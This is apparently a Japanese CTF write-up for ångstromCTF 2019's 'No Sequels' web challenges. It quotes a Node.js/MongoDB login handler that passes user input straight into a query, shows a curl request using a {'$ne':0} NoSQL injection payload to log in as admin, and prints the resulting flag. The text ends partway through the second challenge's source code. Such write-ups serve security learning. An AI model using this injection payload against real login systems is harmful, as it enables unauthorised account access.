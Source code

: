 ```javascript
    }
    var query = {
        username: user,
        password: pass
    }

    db.collection('users').findOne(query, function (err, user) {
        if (!user){
            res.send("Wrong username or password");
            return
        }

        res.cookie('token', jwt.sign({name: user.username, authenticated: true}, secret));
        res.redirect("/site");
    });
});
```

`db.collection` や `findOne` 等の API から MongoDB を使っていることが推測できます。

ユーザ入力である `req.body.password` が文字列であるかどうかをチェックせず、そのまま `query` に格納しています。もし `{"$ne":"hoge"}` のようなオブジェクトが `password` に入れば、`password` が `hoge` でない場合にマッチするという条件式として解釈させることができます。

`app.use(bodyParser.json());` と、POST 時に `Content-Type` ヘッダが `application/json` である場合に HTTP リクエストボディを JSON として解釈されるように設定されていることを利用すると、`admin` としてログインすることができました。

```
$ curl -L "https://nosequels.2019.chall.actf.co" -c cookie.txt
︙
$ curl -L "https://nosequels.2019.chall.actf.co/login" -b cookie.txt -H "Content-type: application/json" -d '{"username":"admin","password":{"$ne":0}}'
…<h2>Here's your first flag: actf{no_sql_doesn't_mean_no_vuln}<br>Access granted, however suspicious activity detected. Please enter password for user<b> 'admin' </b>again, but there will be no database query.</h2>…
```

フラグが得られました。

```
actf{no_sql_doesn't_mean_no_vuln}
```

### No Sequels 2 (80)
> This is the sequel to No Sequels. You'll see the challenge page once you solve the first one.

No Sequels の続きのようです。`admin` としてログイン後、以下のようなソースコードも一緒に表示されていました。

```javascript
router.post('/site', verifyJwt, function (req, res) {
    // req.user is assigned from verifyJwt
    if (!req.user.authenticated || !req.body.pass2) {
        res.send("bad");
    }
 
    var query = {
        username: req.user.name,
    }
 
    var db = req.db;
    db.collection('users').findOne(query, function (err, user) {
        console.log(user);
        if (!user){
            res.render('access', {username:' \''+req.user.name+'\' ', message:"Only user 'admin' can log in with this form!"});
        }
        var pass = user.password;
        var message = "";
```